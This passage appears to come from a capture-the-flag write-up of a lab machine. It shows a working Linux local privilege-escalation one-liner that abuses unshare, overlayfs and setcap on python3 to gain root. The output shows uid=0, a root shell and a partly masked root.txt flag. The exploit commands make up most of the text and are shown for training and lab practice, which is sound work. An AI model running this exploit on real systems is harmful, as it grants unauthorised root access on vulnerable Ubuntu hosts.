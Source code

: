 This code escalates and runs the `id` command, and pasting it in returns a user id of root:

```

metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; id")'
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)

```

If I update that by replacing `id` with `bash`:

```

metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; bash")'
root@analytics:~#

```

And grab `root.txt`:

```

root@analytics:/root# cat root.txt
4fcb8f1e************************

```